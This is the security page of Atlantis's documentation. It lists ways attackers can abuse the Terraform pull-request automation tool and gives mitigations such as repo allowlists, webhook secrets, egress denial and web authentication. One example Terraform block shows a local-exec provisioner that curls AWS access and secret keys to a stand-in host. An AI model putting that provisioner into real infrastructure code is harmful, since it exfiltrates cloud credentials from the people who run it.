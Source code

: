 # Security

## Exploits

Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by

* An attacker submitting a pull request that contains a malicious Terraform file that
  uses a malicious provider or an [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
  that Atlantis then runs `terraform plan` on (which it does automatically unless you've turned off automatic plans).
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://developer.hashicorp.com/terraform/language/resources/provisioners/local-exec)

    ```tf
    resource "null_resource" "null" {
      provisioner "local-exec" {
        command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
      }
    }
    ```

* Running malicious custom build commands specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** `main`.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Mitigations

### Don't Use On Public Repos

Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos without proper configuration of the security settings.

### Don't Use `--allow-fork-prs`

If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-allowlist`

Atlantis requires you to specify a allowlist of repositories it will accept webhooks from via the `--repo-allowlist` flag.
For example:

* Specific repositories: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-allowlist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-allowlist=github.yourcompany.com/*`
* You can also omit specific repos: `--repo-allowlist='github.com/runatlantis/*,!github.com/runatlantis/untrusted-repo'`
* All repositories: `--repo-allowlist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Protect Terraform Planning

If attackers submitting pull requests with malicious Terraform code is in your threat model
then you must be aware that `terraform apply` approvals are not enough. It is possible
to run malicious code in a `terraform plan` using the [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
or by specifying a malicious provider. This code could then exfiltrate your credentials.

To prevent this, you could:

1. Bake providers into the Atlantis image or host and deny egress in production.
1. Implement the provider registry protocol internally and deny public egress, that way you control who has write access to the registry.
1. Modify your [server-side repo configuration](server-side-repo-config.md)'s `plan` step to validate against the
   use of disallowed providers or data sources or PRs from not allowed users. You could also add in extra validation at this point, e.g.
   requiring a "thumbs-up" on the PR before allowing the `plan` to continue. Conftest could be of use here.

### `--var-file-allowlist`

The files on your Atlantis install may be accessible as [variable definition files](https://developer.hashicorp.com/terraform/language/values/variables#variable-definitions-tfvars-files)
from pull requests by adding  
`atlantis plan -- -var-file=/path/to/file` comments. To mitigate this security risk, Atlantis has limited such access
only to the files allowlisted by the `--var-file-allowlist` flag. If this argument is not provided, it defaults to
Atlantis' data directory.

### Webhook Secrets

Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-allowlist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is allowlisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

:::tip Tip
If you are using Azure DevOps, instead of webhook secrets add a [basic username and password](#azure devops basic authentication)
:::

### Azure DevOps Basic Authentication

Azure DevOps supports sending a basic authentication header in all webhook events. This requires using an HTTPS URL for your webhook location.

### SSL/HTTPS

If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.

### Enable Authentication on Atlantis Web Server

It is very recommended to enable authentication in the web service. Enable BasicAuth using the `--web-basic-auth=true` and setup a username and a password using `--web-username=yourUsername` and `--web-password=yourPassword` flags.

You can also pass these as environment variables `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` and `ATLANTIS_WEB_PASSWORD=yourPassword`.

:::tip Tip
We do encourage the usage of complex passwords in order to prevent basic bruteforcing attacks.
:::
